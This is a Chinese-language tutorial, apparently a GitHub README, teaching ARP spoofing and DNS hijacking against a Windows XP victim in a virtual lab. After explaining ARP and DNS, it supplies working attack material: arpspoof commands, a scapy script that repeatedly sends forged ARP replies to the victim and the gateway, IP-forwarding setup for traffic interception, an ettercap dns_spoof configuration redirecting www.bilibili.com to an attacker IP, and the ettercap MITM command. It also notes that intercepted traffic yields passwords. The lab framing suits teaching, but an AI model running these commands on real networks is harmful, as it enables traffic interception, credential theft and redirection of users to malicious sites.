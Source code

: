 # 一条命令，实现ARP欺骗+DNS劫持

## 0、前言：在开始前你需要知道的东西：

### （1）一丢丢的计网基础（ARP是什么，DNS是什么，在二层和三层的工作原理）

ARP：在局域网内，数据包交换的形式是帧，帧传播依靠的是MAC地址，而我们只有主机的IP地址，192.168.xx.xx/10.0.xx.xx之类的，ARP协议即是将主机的IP地址转为MAC地址的协议，第一次会在局域网内广播ARP报文询问指定IP对应的MAC的地址，有主机回应就会把其MAC地址单播给询问主机，然后询问主机就会将该IP和MAC地址的对应关系写入ARP缓存表以便下次使用，下次就不用再以广播的方式获取MAC地址了

DNS：一般我们访问一个网页（或者资源）都是以域名的形式，无论是在浏览器里输入URL还是直接点击A标签，都是通过域名的方式访问资源，但是在网络三层中数据包不是靠域名来交换的，而是靠资源的IP，这就需要我们将域名转为IP地址以便传输数据包，DNS就是这样的存在，主机将需要访问的资源域名发送到DNS服务器上查询其IP，再将获得的结果发送回来，并且在主机本地缓存一份，以后访问就先从本地缓存先找起，这点很关键，等会我们就是在本地DNS缓存上作文章。

### （2）一丢丢的Linux基础（基础命令的使用）

没什么好说的，dddd

### （3）一丢丢python基础（能看懂代码即可）

下面有一段Python代码，有助于理解ARP欺骗原理（重点）

### （4）关于ARP和DNS怎么扯到一起

这就涉及到局域网中一个特殊且重要的角色——网关，网关是访问外网所必须的，相当于连接内网和外网的纽带，在访问外网时，主机会将请求先发送给网关，由网关转发请求给指定服务器获取资源，所以也由网关来请求DNS服务器将域名转为IP地址（不甚准确，在本地无缓存的情况下成立），那么如何获取网关的MAC地址（网关的IP一般由路由器或者其他设备在拨号完成后自动分配，好几种情况，只需要知道网关IP会自动分配就行了），没错，就是通过如上提到的ARP协议获取网关的MAC地址完成通信。这不就串起来了。

## 1、ARP欺骗概念（单向欺骗，双向欺骗）+DNS劫持概念：

## ![ARP欺骗](./image/ARP欺骗.png)

### ARP单向欺骗：

只欺骗被攻击机，伪造成被攻击机的网关，被攻击机发出的流量都先发送至攻击机

### ARP双向欺骗：

欺骗被攻击机，也欺骗被攻击机实际网关，对被攻击机来说，攻击机（伪造）为其网关，对被攻击机实际网关来说，攻击机（伪造）为被攻击机，实现双向欺骗，无论是攻击机还是被攻击机实际网关发送的流量包都会发送至攻击机。

### DNS劫持（又叫域名劫持）：

![DNS劫持](./image/DNS劫持.png)

攻击机向目标机器发送构造好的ARP应答数据包，ARP欺骗成功后，嗅探到对方发出的DNS请求数据包，分析数据包取得ID和端口号后，向目标发送自己构造好的一个DNS返回包，对方收到DNS应答包后，发现ID和端口号全部正确，即把返回数据包中的域名和对应的IP地址保存进DNS缓存表中，而后来的当真实的DNS应答包返回时则被丢弃。

## 2、ARP欺骗+DNS劫持欺骗实验环境：

```python
Kali攻击机：		IP：192.168.32.132			MAC：00:0c:29:df:c8:ef
WinXP被攻击机：		IP：192.168.32.131			MAC：00:0c:29:dc:23:79
网关：                  IP：192.168.32.2	                      MAC：00:50:56:f8:b1:7d（可用arp -a查看）
```

## 3、ARP（攻击）欺骗：

```python
kali实施arp欺骗命令：（单向，仅欺骗被攻击机）
arpspoof -i eth0 -t 192.168.32.131 192.168.32.2
(双向：arpspoof -i eth0 -t 192.168.32.2 192.168.32.131)
-i：指定使用的监听网卡
-t：攻击主机目标地址 攻击主机网关地址

附：Python脚本版（效果一样的，更有利于理解原理）：
from scapy.layers.l2 import getmacbyip, Ether, ARP
from scapy.sendrecv import sendp
import time

def arp_spoof():
   iface  ="VMware Virtual Ethernet Adapter for VMnet8"

#被攻击机IP和MAC，WinXP
   target_ip = '192.168.32.131'
   target_mac = '00:0c:29:dc:23:79'

#攻击机IP和MAC，kali
#    spoof_ip = '192.168.32.132'
   spoof_mac = '00:0c:29:df:c8:ef'

#网关IP和MAC
   gateway_ip = '192.168.32.2'
   gateway_mac = getmacbyip(gateway_ip)

   while True:
       #构造网络层数据包，欺骗被攻击机，伪造成网关
       packet = Ether(src=spoof_mac, dst=target_mac)/ARP(hwsrc=spoof_mac, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip, op=2)
       sendp(packet, iface=iface)

       #构造网络层数据包，欺骗网关，伪造成被攻击机
       packet = Ether(src=spoof_mac, dst=gateway_mac)/ARP(hwsrc=spoof_mac, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip, op=2)
       sendp(packet, iface)
       
       time.sleep(1);

if __name__ == '__main__':
    arp_spoof()
```

此时在WinXP上使用arp -a命令查看IP和MAC地址对应关系，网关IP（192.168.32.2）对应MAC地址为攻击机IP（192.168.32.132）对应MAC地址（00:0c:29:df:c8:ef）即为成功欺骗，此时WinXP是无法上网的。

继续进阶，修改/proc/sys/net/ipv4/ip_forward的值为1，开启kali的流量转发功能

```shell
#查看ip_forward值
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward
0
#修改其值为1
┌──(root㉿kali)-[~/Desktop]
└─# echo 1 > /proc/sys/net/ipv4/ip_forward
#开启成功
┌──(root㉿kali)-[~/Desktop]
└─# cat /proc/sys/net/ipv4/ip_forward     
1
```

这时重新实施arp欺骗，欺骗成功后被攻击机是可以上网，但是是把流量转发给攻击机，由攻击机充当其网关的角色来转发流量，实现流量劫持。

可以使用wireshark，fiddler等抓包工具来抓取数据包，获取被攻击机敏感信息如账号密码等（PS：如有兴趣可自行搜索教程，这里重点不是这个，恕不赘述）

经过如上步骤，已达成DNS劫持的前提条件，下面继续实验

## 4、DNS劫持：

### 准备工作：

安装ettercap，一般kali自带的只有文本版，也可以安装图形化界面版

```shell
┌──(root㉿kali)-[~/Desktop]
└─# apt-get install ettercap-graphical

#安装完成后，修改配置文件/etc/ettercap/etter.dns
┌──(root㉿kali)-[~/Desktop]
└─# vim /etc/ettercap/etter.dns 
#在最后一行（任意位置都可以啦，记得把注释去掉）添加如下字段：
域名	DNS记录类型	访问域名时需要映射的IP
例：
www.bilibili.com	A	192.168.32.133
*	PTR	192.168.32.133
注：第三个字段IP是作为Apache/Nginx服务器域名来访问，映射时攻击机会向DNS服务器发出对该域名（IP）的请求，国内服务器无域名或域名未备案的话大概率不能访问
```

配置文件修改好后，可以开始使用工具进行DNS劫持了

### 命令行版：

```shell
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -Tq -i eth0 -M arp:remote -P dns_spoof /192.168.32.131// /192.168.32.2//
# -Tq:T以文本模式运行，q以安静模式运行
# -i 指定网卡
# -M （MITM-attack）指定中间人攻击方式，这里是ARP欺骗
# -P 指定插件（也算攻击方式的一种）
# 192.168.32.131 被攻击机IP
# 192.168.32.2	网关IP
```

运行如上命令后，被攻击机DNS缓存内就被写入污染后的DNS记录，且短时间内存在，可在被攻击机上使用如下命令查看：

```shell
Windows：
ipconfig /displaydns
Linux:
nscd -g（查看DNS统计信息，需要看是否自带此工具）
```

### 图形化界面版：

```shell
#kali终端输入ettercap -G或kali菜单直接搜索ettercap使用
┌──(root㉿kali)-[~/Desktop]
└─# ettercap -G    
```

![step_1](./image/step_1.png)

![step_2](./image/step_2.png)

![step_3](./image/step_3.png)



![step_4](./image/step_4.png)



此时访问上面配置文件指定域名时会被定向至指定的IP地址，成功实现DNS劫持，且短时间内生效，发来正确的DNS记录也会被丢弃。这个时候就可以去看看效果了。实验结束记得关闭工具的使用，刷新下DNS缓存及ARP缓存，顺便清除浏览器缓存

```shell
Windows：
#刷新DNS缓存 ipconfig /flushdns
#刷新ARP缓存 ARP -d
```

